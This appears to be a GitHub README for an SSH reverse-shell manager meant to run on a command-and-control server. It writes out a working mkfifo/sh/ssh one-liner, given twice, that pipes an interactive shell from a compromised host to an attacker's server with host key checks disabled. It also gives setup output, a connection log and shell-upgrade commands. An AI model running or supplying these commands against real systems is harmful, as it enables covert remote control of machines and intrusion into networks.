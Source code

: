 # SSHReverseShell
Script to setup a SSH reverse shell manager on a C2 server

1. Setup on the server
    ```bash
    ./sshshell.sh -a /home/rshell/.ssh/id_rsa.pub
    ```
    ```
    Adding SSH public key rshell => ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOG+aXTDEM4k6Y/20s0NDZNWlmad+3nQotJYBBwqT7Ai/INV59WsSbQyL91W5y+30rMZQlXpk2UfVyxrFHCaEtUz3CXP/kkFsj862dgc3b8HeQM83GlHj6lZmpxihdVrNsQ7vn6uJTA9Wwo12fkGEXsN985ksofQR9s+rVIQJT3SAmJNhwbc8hDpunHl2sSRYil+kdVcCABNzKMUz5/3N6iB1DHzzYdgAIyZQ4+wmemUbBQ+clvqrVC2OdKl7h7WSEqgSp4IsHO0Bmo7ELqNYR1ORGk505dGGx62hbO5f7gciirRsH5EyptpBG3xYZxns4E5ont13l9GsL+Ok8ZH6N git@scanner
    Run the following command on the remote server to connect the reverse shell:
      mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | ssh -i <SSH private key file> -o "StrictHostKeyChecking no" -o "UserKnownHostsFile /dev/null" rshell@server > /tmp/f; rm /tmp/f
    ```

2. Connect from the client
    ```bash
    mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | ssh -i /home/user/.ssh/id_rsa -o "StrictHostKeyChecking no" -o "UserKnownHostsFile /dev/null" rshell@server > /tmp/f; rm /tmp/f
    ```
3. Connect from the server
    ```bash
    ./sshshell.sh
    ```
    ```
    Connecting to 8.8.8.8_18000...
    Upgrade to a full TTY:
    * Launch a ptty:
      $ python -c 'import pty; pty.spawn("/bin/bash")'
      or
      $ script
    * Background the process (Ctrl+z)
    * Setup the environment:
      $ stty raw -echo
      $ fg
      $ reset; export SHELL=bash; export TERM=xterm-256color; stty rows 27 columns 204
    Connection to 127.0.0.1 18000 port [tcp/*] succeeded!
    sh: no job control in this shell
    sh-3.2$
    ```
